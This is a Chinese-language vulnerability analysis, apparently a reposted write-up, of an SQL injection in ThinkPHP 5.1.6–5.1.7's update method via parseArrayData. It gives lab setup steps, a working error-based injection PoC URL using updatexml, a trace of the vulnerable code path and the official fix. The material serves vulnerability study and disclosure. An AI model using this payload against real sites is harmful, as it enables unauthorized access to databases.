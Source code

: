 # 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）

> 原文：[http://book.iwonder.run/0day/Thinkphp/ThinkPHP5/ThinkPHP5 漏洞分析之 SQL 注入 2.html](http://book.iwonder.run/0day/Thinkphp/ThinkPHP5/ThinkPHP5 漏洞分析之 SQL 注入 2.html)

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL 注入** 漏洞（ **update** 方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData** 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL 注入漏洞** 的产生

## 二、漏洞影响

5.1.6<=ThinkPHP<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

## 三、复现过程

### 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->where(['id' => 1])->update(['username' => $username]);
        return 'Update success';
    }
} 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz'); 
```

### poc

```
http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 
```

访问链接，即可触发 **SQL 注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1](img/c24fc3e0e14e80754321243ab7541e9c.png)

### 漏洞分析

![2](img/c24fc3e0e14e80754321243ab7541e9c.png)

首先在官方发布的 **5.1.9** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case** 语句之前出现过 **insert** 注入，所以比较可疑。

![3](img/c24fc3e0e14e80754321243ab7541e9c.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了 **Connection** 类的 **update** 方法，该方法又调用了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4](img/c24fc3e0e14e80754321243ab7541e9c.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData** 方法。这个方法中的 **case** 语句之前存在 **SQL 注入漏洞** ，现已修复，然而却多了 **default** 代码段，而这段代码也是在新版本中被删除的。

![5](img/c24fc3e0e14e80754321243ab7541e9c.png)

我们跟进到 **parseArrayData** 方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的 **insert** 注入一样，用 **str_replace** 将变量填充到 **SQL** 语句中，最终执行，导致 **SQL 注入漏洞** 。

![6](img/c24fc3e0e14e80754321243ab7541e9c.png)

上面 **第 15 行** 的 **$result** 相当于 **$a('$b($c)')** 其中 **$a、$b、$c** 均可控。最后形成的 **SQL** 语句如下：

```
UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1; 
```

接着我们想办法闭合即可。我们令 **$a = updatexml(1,concat(0x7,user(),0x7e),1)^** 、 **$b = 0** 、 **$c = 1** ，即：

```
UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1 
```

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7](img/c24fc3e0e14e80754321243ab7541e9c.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8](img/c24fc3e0e14e80754321243ab7541e9c.png)

## 参考链接

> [https://github.com/Mochazz/ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln)

